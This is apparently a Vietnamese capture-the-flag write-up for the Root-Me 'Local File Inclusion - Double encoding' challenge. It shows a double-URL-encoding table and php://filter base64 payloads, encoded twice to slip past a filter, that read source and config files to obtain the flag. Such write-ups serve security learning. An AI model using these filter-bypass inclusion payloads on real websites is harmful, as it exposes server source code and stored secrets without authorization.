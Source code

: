 # Local File Inclusion - Double encoding

- 30 Points  

- Include can be dangerous

- No hints

# Overview:

![image](https://user-images.githubusercontent.com/115911041/229867328-8eca7f32-7935-45ff-a99e-2c6131de8847.png)

Theo đề bài nói ta cần phải double encode filepath để tránh bị phát hiện.

# Solution:

| Char | simple encoding | double encoding |
| :---:|      :---:      |      :---:      |
| :    | :3A             | : %253A         |
| /	   | : 2F	           | : %252F         |
| .	   | : 2E	           | : %252E         |
| -	   | : 2D	           | : %252D         |
| =	   | : 3D	           | : %253D         |
| <    | : 3C            | : %253C         |
| >    | : 3E            | : %253E         |

Chúng ta sử dụng payload `php://filter` với [base64 encoding](https://www.base64decode.org/). Các payload tham khảo [tại đây](https://github.com/payloadbox/rfi-lfi-payload-list)

`php://filter/convert.base64-encode/resource=cv`

Sau đó double encoding

`php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv`

Ta có thể encode cả URL

`http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv`

Ta được kết quả là 1 chuỗi kí tự dài.Copy chuỗi đó vào Base64 encoded ta được

`<?php include("conf.inc.php"); ?>`

Nhận thấy có lệnh `include` vậy chắc chắc flag nằm trong `conf.inc.php` 


`http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf`

Kết quả ta nhận được là 1 chuỗi dài như lúc trước. Tiếp tục base64 encoded, ta có được flag

![image](https://user-images.githubusercontent.com/115911041/229880520-032057ad-7f3d-496e-917e-e07cdfc600d9.png)
